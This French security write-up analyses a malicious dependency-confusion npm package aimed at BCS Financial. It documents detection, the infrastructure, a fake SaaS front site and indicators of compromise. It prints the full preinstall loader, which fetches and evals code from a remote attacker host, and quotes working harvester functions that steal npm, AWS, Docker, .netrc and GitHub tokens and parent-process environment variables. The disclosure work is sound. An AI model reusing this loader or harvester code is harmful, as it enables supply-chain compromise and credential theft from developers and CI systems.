

Le 2026-05-04 à 09:37 UTC, le package @bcs-bank-complex-ui/deeplink en version 99.0.7 est publié sur registry.npmjs.org. Une vingtaine de minutes plus tard, MUAD'DIB le flagge avec un score plafonné à 133/100 et huit règles déclenchées simultanément. Le tarball, le serveur C2 et l'infrastructure DNS sont encore actifs au moment de l'analyse, ce qui a permis de récupérer dynamiquement le payload de stage 2 servi par l'opérateur. Un rapport a été soumis à npm Security.
Cet article documente la détection statique, le contenu du loader, le payload de stage 2 récupéré en direct, l'infrastructure d'exfiltration et les indicateurs de compromission associés. Il signale également le contraste entre la sophistication du collecteur multi-plateforme et la trivialité de la couverture choisie pour héberger le C2.
Détection
Le package est publié à 09:37 UTC. Le scan automatique le classe en CRITICAL avec un score brut de 133, plafonné à 100 par la règle de scoring. Huit règles distinctes contribuent au score :
| Règle | ID | Contribution |
|---|---|---|
| Chargement de code distant (fetch + eval) | MUADDIB-AST-040 | +25 |
| Exécution de payload en deux étapes | MUADDIB-FLOW-002 | +25 |
| Flux de données suspect | MUADDIB-FLOW-001 | +25 |
| Compound lifecycle + dataflow | MUADDIB-COMPOUND-007 | +25 |
| Version >= 99 + lifecycle hook | MUADDIB-PKG-019 | +10 |
| eval() avec expression dynamique | MUADDIB-AST-004 | +10 |
| Compound lifecycle + dataflow | MUADDIB-COMPOUND-009 | +10 |
| Script lifecycle détecté | MUADDIB-PKG-001 | +3 |
La détection est strictement statique : tous les signaux nécessaires à la classification sont visibles dans le tarball publié, sans qu'il faille exécuter le code ni interroger le serveur C2.
Métadonnées du package
Données récupérées via curl https://registry.npmjs.org/@bcs-bank-complex-ui/deeplink :
| Champ | Valeur |
|---|---|
| Nom | @bcs-bank-complex-ui/deeplink |
| Version | 99.0.7 |
| Publié le | 2026-05-04T09:37:04.830Z |
| Maintainer | bcs-bank-complex-ui |
bcs-bank-complex-ui@proton.me | |
| Keywords | bug bounty |
| SHA-1 tarball | bd6747dca3752881906c782fa06efbcec02651b8 |
L'email Proton est jetable. Le nom de compte reproduit littéralement le scope ciblé. La version 99.0.7 est calibrée pour gagner toute résolution semver face à un package interne dont les versions réelles sont vraisemblablement bien plus basses.
Stage 1 : le loader
Le tarball ne contient que trois fichiers : package.json (261 octets), preinstall.js (876 octets) et index.js (21 octets, réduit à module.exports = {}). Le seul fichier qui transporte de la logique est preinstall.js, déclenché par le hook preinstall du package.json.
package.json
{
"name": "@bcs-bank-complex-ui/deeplink",
"version": "99.0.7",
"description": "bcs utilities",
"main": "index.js",
"scripts": {
"preinstall": "node preinstall.js"
},
"keywords": [
"bug bounty"
],
"author": "BCS",
"license": "ISC"
}preinstall.js
const http = require("http");
const fs = require("fs");
const path = require("path");
const BASE = "oob.moika.tech";
const raw = process.env.npm_package_name
|| (() => {
try {
return JSON.parse(
fs.readFileSync(path.join(__dirname, "package.json"), "utf8")
).name;
} catch(_){}
return "";
})();
const scope = raw.startsWith("@")
? raw.split("/")[0].slice(1).replace(/[^a-z0-9-]/gi, "-") : "x";
const pkg = (raw.startsWith("@")
? raw.split("/")[1] : raw).replace(/[^a-z0-9-]/gi, "-");
// Fetches poc.js (safe PoC: whoami/hostname/ifconfig + /etc/passwd only)
http.get(`http://${pkg}.${scope}.${BASE}/poc.js`, { timeout: 8000 }, (res) => {
let body = "";
res.on("data", chunk => { body += chunk; });
res.on("end", () => { try { eval(body); } catch (_) {} });
}).on("error", () => {}).on("timeout", function() { this.destroy(); });Le commentaire intégré au loader décrit la charge servie comme safe PoC: whoami/hostname/ifconfig + /etc/passwd only. Le payload récupéré par le même fetch raconte une autre histoire.
Stage 2 : le payload servi en direct
Récupéré en direct le 2026-05-04 via curl http://deeplink.bcs-bank-complex-ui.oob.moika.tech/poc.js. Le serveur a renvoyé un HTTP 200 et un blob JavaScript de 250 lignes, structuré sous forme d'IIFE. Le contenu est servi dynamiquement par le C2 : ce que reçoit la victime au moment où le hook preinstall se déclenche dépend de ce que l'opérateur sert à cet instant. Le snapshot capturé ici a la valeur d'un instantané, pas d'un binaire signé immuable.
Cibles de collecte présentes dans le payload capturé :
| Cible | Méthode | Sources |
|---|---|---|
| Infos système | whoami, hostname, uname -a, ip addr | OS, utilisateur, interfaces réseau |
| Fichiers système | readFileSync | /etc/passwd, /etc/hosts, /proc/sys/kernel/hostname |
| Variables d'environnement | process.env, printenv, /proc/<pid>/environ | Valeurs des env vars du process courant et des processus parents (jusqu'à 8 niveaux remontés via /proc/<ppid>/status) |
| Configs shell | readFileSync + suivi des source | .bashrc, .zshrc, .profile, .bash_profile, config fish, /etc/environment, /etc/profile |
| Dotfiles sensibles | readFileSync | .secrets, .tokens, .api_keys, .credentials, .private, .keys |
| Fichiers .env | readFileSync sur 5 niveaux de répertoires | .env, .env.local, .env.production, .env.staging, .env.ci, config/.env et 11 variantes supplémentaires |
| Tokens npm | Parseur .npmrc | ~/.npmrc, $CWD/.npmrc |
| Tokens Yarn | Parseur .yarnrc.yml | npmAuthToken, npmRegistryServer |
| Tokens pnpm | Parseur compatible .npmrc | ~/.config/pnpm/rc |
| Credentials AWS | Parseur INI | ~/.aws/credentials, ~/.aws/config |
| Auth Docker | Parseur JSON + décodage Base64 | ~/.docker/config.json (champ auth) |
| .netrc | Parseur dédié | ~/.netrc, ~/_netrc (login + password) |
| Config Git | Parseur INI | ~/.gitconfig |
| Credentials PyPI | Parseur INI | ~/.pypirc |
| Gradle properties | Parseur env | ~/.gradle/gradle.properties |
| Credentials Cargo | Parseur INI | ~/.cargo/credentials.toml |
| Config pip | Parseur INI | pip.conf / pip.ini |
| Token GitHub CLI | Regex YAML | ~/.config/gh/hosts.yml (oauth_token) |
| Registre Windows | reg query | HKCU\Environment, HKLM\...\Session Manager\Environment |
| Env du login shell | Spawn bash/zsh/sh avec sourcing des profiles | Capture les env vars invisibles à process.env |
Toute la collecte est ensuite concaténée dans un blob texte unique et envoyée par POST /report sur l'OAST en HTTP non chiffré.
Deux extraits du payload, cités sans modification :
Collecte des credentials AWS, Docker, GitHub CLI et .netrc :
function collectConfigFiles() {
const r = {};
const cwd = process.cwd();
// npm tokens
for (const fp of [path.join(cwd, ".npmrc"), path.join(HOME, ".npmrc")]) {
const c = readFile(fp); if (c) Object.assign(r, parseNpmrc(c));
}
// AWS credentials
const awsCred = readFile(path.join(HOME, ".aws", "credentials"));
if (awsCred) Object.assign(r, parseIni(awsCred, "AWS_"));
// Docker auth (décode le Base64)
const docker = readFile(path.join(HOME, ".docker", "config.json"));
if (docker) Object.assign(r, parseDockerConfig(docker));
// .netrc (login + password en clair)
const netrc = readFile(path.join(HOME, ".netrc"))
|| readFile(path.join(HOME, "_netrc"));
if (netrc) Object.assign(r, parseNetrc(netrc));
// GitHub CLI token
const ghHosts = readFile(path.join(HOME, ".config", "gh", "hosts.yml"));
if (ghHosts) {
const m = ghHosts.match(/oauth_token:\s*([^\s\r\n]+)/);
if (m) r["GH_CLI_TOKEN"] = m[1];
}
return r;
}Remontée de l'arbre des processus parents via /proc, qui permet de capturer des variables d'environnement injectées par un orchestrateur (CI runner, conteneur init, agent build) qui ne sont pas accessibles au process Node lui-même :
function collectProcEnvs() {
if (IS_WIN || IS_MAC || !fs.existsSync("/proc")) return {};
const r = {};
const visited = new Set();
let pid = process.ppid;
for (let i = 0; i < 8; i++) {
if (!pid || pid <= 1 || visited.has(pid)) break;
visited.add(pid);
const envRaw = readFile(`/proc/${pid}/environ`);
if (envRaw) {
for (const entry of envRaw.split("\0")) {
const idx = entry.indexOf("=");
if (idx > 0) {
const k = entry.slice(0, idx);
if (k && !(k in r)) r[k] = entry.slice(idx + 1);
}
}
}
const status = readFile(`/proc/${pid}/status`);
if (!status) break;
const m = status.match(/^PPid:\s+(\d+)/m);
pid = m ? parseInt(m[1]) : null;
}
return r;
}Infrastructure d'exfiltration
Le payload construit un sous-domaine dynamique qui encode l'identité de la victime :
${pkg}.${scope}.${osName}-${user}.${host}.oob.moika.tech
Exemple :
deeplink.bcs-bank-complex-ui.linux-jenkins.build-server-04.oob.moika.techLe domaine est configuré en wildcard DNS : tous les sous-domaines résolvent vers la même adresse. L'attaquant identifie chaque victime par le sous-domaine seul. Même si le POST HTTP est bloqué par un firewall sortant, la résolution DNS suffit à confirmer l'exécution du loader sur la machine cible et à transporter une partie de l'identifiant de victime.
Enregistrement du domaine
| Champ | Valeur |
|---|---|
| Domaine | moika.tech |
| Registrar | REG.RU LLC (IANA ID 1606) |
| Créé le | 2026-03-14 |
| Nameservers | ns1.reg.ru, ns2.reg.ru |
| DNSSEC | non signé |
Hébergement
| Champ | Valeur |
|---|---|
| IP | 72.56.97.200 |
| ASN | AS210976 (Timeweb, LLP) |
| Localisation | Amsterdam, NL |
| Statut au moment de l'analyse | HTTP 200 (actif) |
La façade
Le domaine racine moika.tech sert un produit SaaS d'apparence légitime : MOIKA, système de réservation Telegram pour stations de lavage automobile (автомойки). Landing page travaillée (branding, mockup d'application, navigation Экосистема / Возможности / Тарифы), claims chiffrés affichés en page d'accueil ("500+ автомоек", "2 млн уведомлений", "98% возвращаются"), tarifs en roubles, témoignages localisés à Moscou, Ekaterinbourg et Kazan. Le serveur OAST de cette campagne tourne en sous-domaine (oob.moika.tech) sous cette vitrine commerciale, partageant la même IP et la même infrastructure DNS que le site public.

oob.moika.tech partage la même IP que ce site.Empreinte web : nulle
Trois recherches web ciblées ("moika.tech" автомойка Telegram, "moika.tech" car wash SaaS booking, "moika.tech" review отзыв) ne renvoient aucun résultat parlant du domaine lui-même. Tous les hits concernent des produits homonymes mais sans rapport : moika.online, moika2x2.ru, moika.com.ua (boutique ukrainienne), la franchise Digital Moika, des produits de cosmétique coréenne, ou des bots Telegram tiers de réservation auto-lavage. Aucun avis, aucun article presse, aucun annuaire d'apps Telegram, aucune mention sociale, aucun classement vendor n'évoque le domaine.
Pour un SaaS qui revendique en page d'accueil 500 stations clientes et 2 millions de notifications envoyées, l'absence totale d'empreinte publique est anormale. Plusieurs signaux convergent et sont compatibles avec une page générée par un LLM et publiée pour étoffer la couverture du domaine :
- Domaine enregistré le 2026-03-14, soit sept semaines avant la publication du package npm : pas de longévité d'exploitation possible.
- Témoignages génériques ("Андрей К., Москва", "Светлана М., Екатеринбург", "Дмитрий Р., Казань") sans nom complet, sans station identifiable, sans photo authentifiable, sans empreinte sociale latérale.
- Chiffres ronds non sourcés ("500+", "2 млн", "98%") sans étude, sans dashboard d'opérateur, sans communiqué relayé.
- Aucune référence dans les annuaires russophones d'apps Telegram, ni dans les comparatifs SaaS B2B locaux où un produit revendiquant 500 clients aurait normalement une trace.
Cette observation fait tomber l'hypothèse "produit réel exploité parallèlement par son propriétaire" et "détournement DNS d'un site existant" : il n'y a pas de site préexistant à détourner ni de produit en exploitation à exploiter. La lecture la plus parcimonieuse de l'ensemble est que moika.tech est une vitrine fabriquée pour la campagne, hébergée sur la même IP que oob.moika.tech afin de présenter à un visiteur web (ou à un défenseur en triage initial) un domaine qui ne ressemble pas à un C2.
La cible : BCS Financial Group
BCS Financial Group (БКС) est l'un des plus grands groupes financiers privés de Russie, fondé en 1995 à Novossibirsk. Le groupe comprend BCS Bank (licence bancaire depuis 1989), BCS Prime Brokerage à Londres, et des bureaux à Moscou, New York et Chypre. Effectif déclaré entre 1000 et 5000 personnes selon les sources.
Le scope @bcs-bank-complex-ui n'existait pas sur le registre public npm avant la publication de l'attaquant. Aucun autre package sous ce scope n'est présent sur npmjs.com au moment de la vérification : core, ui, common, utils, shared, components, auth, api et config retournent tous HTTP 404. Le nom complex-ui est trop spécifique pour avoir été tiré au hasard. L'attaquant connaissait ce scope, soit par leak (fichier JS public, stack trace, offre d'emploi, dépôt GitHub indexé), soit par reconnaissance active sur des artefacts internes exposés.
Comment fonctionne la dependency confusion sur ce scope
Les packages internes d'entreprise ne sont pas hébergés sur le registre public npm. Ils sont publiés sur des registres privés (Artifactory, Verdaccio, Nexus, GitHub Packages) accessibles uniquement depuis le réseau interne ou via des credentials privées. Si @bcs-bank-complex-ui existe sur le registre privé de BCS Financial, il n'avait jamais été réservé sur le registre public npmjs.com.
L'attaquant publie un package sous ce scope sur le public en version 99.0.7. Quand un développeur de la cible lance npm install, si la configuration npm n'est pas explicitement verrouillée sur le registre interne pour ce scope (via .npmrc avec @bcs-bank-complex-ui:registry=https://internal.example.com/), le client interroge les deux registres en parallèle. Une version 2.x côté interne et une version 99.0.7 côté public donnent 99.0.7 à la résolution semver. Le hook preinstall s'exécute avant tout code utilisateur, sans interaction utilisateur ni signal visible.
Indices contradictoires sur l'intention
Plusieurs signaux du package et de son loader pourraient laisser penser à un test de sécurité maladroit plutôt qu'à une opération malveillante :
- Version
99.0.7: un attaquant cherchant la discrétion choisirait un numéro plausible (par exemple3.1.2), pas une version qui annonce explicitement une dependency confusion. - Keyword
bug bountyplacé dans les métadonnées dupackage.json. - Commentaire
// Fetches poc.js (safe PoC: whoami/hostname/ifconfig + /etc/passwd only)dans le loader. - Email Proton qui reproduit littéralement le scope cible (
bcs-bank-complex-ui@proton.me) au lieu d'utiliser un alias générique. - Exfiltration en HTTP non chiffré, sans authentification, sans persistance, sans reverse shell, sans worm de propagation.
Plusieurs autres signaux tirent dans la direction opposée :
- Le payload servi par le C2 est un harvester de 250 lignes qui dépasse très largement la portée annoncée par le commentaire (whoami/hostname/ifconfig + /etc/passwd only) : remontée de 8 niveaux de
/proc/<ppid>/environ, décodage Base64 des tokens Docker, suivi des chaînessourcedans.bashrc/.zshrc/.profile, parsing dédié pour au moins 12 formats de credentials distincts (npm, Yarn, pnpm, AWS, Docker, .netrc, Git, PyPI, Gradle, Cargo, pip, GitHub CLI), et branche dédiée pour l'export du registre Windows. - Le payload est servi dynamiquement par le C2, donc modifiable à tout instant : la version de stage 2 capturée par MUAD'DIB n'engage pas l'opérateur sur ce qui sera servi à la prochaine victime.
- Le domaine de façade
moika.techn'a aucune empreinte web, aucun client identifiable, aucun avis, et a été enregistré sept semaines avant la publication du package : la couverture est fabriquée, pas exploitée. - Les destinataires effectifs de l'exécution ne sont pas BCS Financial (qui ne résoudrait
@bcs-bank-complex-uique si sa configuration interne le permettait) mais aussi tout tiers qui taperait ce scope par erreur ou par confusion. Un programme de bug bounty éventuel ne couvre pas l'exécution chez ces tiers, qui ne sont pas parties au programme.
Un proof-of-concept de bug bounty crédible se limiterait à un ping OAST avec hostname et os.type(), sans collecte de credentials. Le code servi ici n'est pas un PoC, c'est un harvester opérationnel. Que l'opérateur prévoie ou non d'invoquer un programme bug bounty pour se défendre a posteriori, la nature du code exécuté chez les victimes ne change pas.
Ce que nous ne pouvons pas confirmer
- L'identité de l'opérateur n'est pas établie. L'infrastructure (REG.RU, Timeweb LLP, vitrine SaaS russophone) est compatible avec un opérateur russophone mais ne suffit pas à attribuer.
- L'existence ou non d'un programme bug bounty privé de BCS Financial qui couvrirait ce mode de publication n'est pas confirmée publiquement.
- Le payload de stage 2 cité ici est un instantané du blob servi le 2026-05-04. Le serveur peut servir une charge différente à un autre moment ou à un autre client, et ce qu'a effectivement reçu une victime donnée ne peut pas être reconstitué a posteriori sans logs de l'opérateur.
- L'absence d'empreinte web pour
moika.techest observable sur les moteurs publics ; nous n'excluons pas une présence dans des canaux fermés (Telegram privés, intranets) que ces recherches ne couvrent pas.
Indicateurs de compromission
| Type | Valeur |
|---|---|
| Package | @bcs-bank-complex-ui/deeplink@99.0.7 |
| SHA-1 tarball | bd6747dca3752881906c782fa06efbcec02651b8 |
| Intégrité | sha512-s2rm42EOTfYrl[...]ZOn7ke2HKRIPg== |
| Domaine C2 | oob.moika.tech (wildcard sous-domaines) |
| IP C2 | 72.56.97.200 |
| ASN | AS210976 (Timeweb LLP) |
| Registrar | REG.RU LLC |
| Domaine créé le | 2026-03-14 |
| Email maintainer | bcs-bank-complex-ui@proton.me |
| Domaine de façade | moika.tech (SaaS lavage auto, même IP) |
Chronologie
| Date / heure (UTC) | Évènement |
|---|---|
| 2026-03-14 | Domaine moika.tech enregistré via REG.RU. |
| 2026-05-04 09:37 | Package @bcs-bank-complex-ui/deeplink@99.0.7 publié sur registry.npmjs.org. |
| 2026-05-04, ~20 min plus tard | Détection MUAD'DIB (score 133/100, plafonné, 8 règles). |
| 2026-05-04 | Triage manuel : tarball récupéré, payload de stage 2 capturé en direct, forensique d'infrastructure complétée. |
| 2026-05-04 | Rapport soumis à npm Security. |
Cet article sera mis à jour si npm Security retire le package, si une information complémentaire (réponse de BCS Financial, takedown DNS, partage d'IOCs par un tiers) modifie le tableau présenté.
Dernière vérification : 2026-05-04.